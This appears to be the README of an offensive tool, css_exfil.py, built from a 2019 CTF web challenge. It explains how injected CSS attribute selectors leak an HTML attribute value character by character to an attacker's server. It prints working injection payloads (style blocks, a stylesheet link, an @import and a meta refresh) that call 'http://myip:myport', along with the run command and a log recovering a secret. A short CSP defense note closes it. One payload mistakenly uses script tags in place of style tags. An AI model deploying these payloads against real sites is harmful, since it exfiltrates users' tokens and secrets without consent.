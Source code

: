 # CSS Exfil

## Concept
This is inspired by a web challenge called "Free as is Freedom" that was proposed in the 2019 [X-MAS CTF](https://xmas.htsp.ro/home). In this challenge you were able to inject an arbitrary string into a document that the victim would then load in a browser. It looks like a traditionnal XSS challenge, except in this case the CSP doesn't allow you to run javascript and there is no way around it. Instead, the idea is to exfiltrate the value of an HTML attribute using [CSS attribute selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors).

Let's say you want to exfiltrate the value of the `value` attribute:
```html
<input type="text" id="name" value="S3cr3t">
```
What you need to do is inject a bunch of [CSS attribute selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors), each matching a value starting with a different character:
```HTML
<style>
input#name[value^="a"] { background: url("http://myip:myport/reveal?c=a"); }
input#name[value^="b"] { background: url("http://myip:myport/reveal?c=b"); }
...
input#name[value^="S"] { background: url("http://myip:myport/reveal?c=S"); }
...
</style>
```
It can be done either by injecting the payload above directly into the victim's document, or by injecting a link to your own web server, which will respond with the same payload (without the `<style>` tags):
```HTML
<link rel="stylesheet" href="http://myip:myport/evil.css">
```
It can also be done using CSS imports:
```HTML
<style>@import url("http://myip:myport/evil.css");</style>
```
Either way, only one the CSS selectors will match, and it will trigger a `GET` request to your server to load the corresponding background image. In this case, you will receive the following request:
```
GET /reveal?c=S HTTP/1.1
...
```
You've read the first character. You can repeat the process to read the second character using this payload:
```HTML
<script>
input#name[value^="Sa"] { background: url("http://myip:myport/reveal?c=a"); }
input#name[value^="Sb"] { background: url("http://myip:myport/reveal?c=b"); }
...
input#name[value^="S3"] { background: url("http://myip:myport/reveal?c=S"); }
...
</script>
```
# The Script
The `css_exfil.py` script automates this process. It uses [Flask](https://palletsprojects.com/p/flask/) to serve the payloads and retrieve the exfiltrated characters. A request to `/evil.css` returns the set of CSS attribute selectors that is used to reveal the next character. A request to `/reveal?c=x` (made to retrieve the background image) returns a 404 error and adds `x` to the exfiltrated secret. It two consecutive requests are made to the `/evil.css` URL with no `/reveal` request in between then it means the last set of CSS attribute selectors haven't matched anything, and the secret has been read completely.

For this to work, we need the victim to make repeated requests to `evil.css`. It can be done by adding a `refresh` to the injected payload:
```html
<link rel="stylesheet" href="http://myip:myport/evil.css">
<meta http-equiv="refresh" content="1">
```
The script is run as follows:
```
$ ./css_exfil.py -l $myip:$myport -s 'input#name' -a value
 * Serving Flask app "css_exfil" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://127.0.0.1:8080/ (Press CTRL+C to quit)
127.0.0.1 - - [23/Dec/2019 18:25:38] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:38] "GET /reveal?c=S HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:39] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:39] "GET /reveal?c=3 HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:40] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:40] "GET /reveal?c=c HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:41] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:41] "GET /reveal?c=r HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:42] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:42] "GET /reveal?c=3 HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:43] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:43] "GET /reveal?c=t HTTP/1.1" 404 -
127.0.0.1 - - [23/Dec/2019 18:25:44] "GET /evil.css HTTP/1.1" 200 -
127.0.0.1 - - [23/Dec/2019 18:25:45] "GET /evil.css HTTP/1.1" 200 -
S3cr3t
```
## Defense
Other than properly sanitizing user input to prevent HTML injection, the `style-src-elem` or the broader `style-src` (or `default-src`) CSP rules can be set to prevent loading CSS files from untrusted resources.
## Links
[Stealing Data With CSS: Attack and Defense](https://www.mike-gualtieri.com/posts/stealing-data-with-css-attack-and-defense)


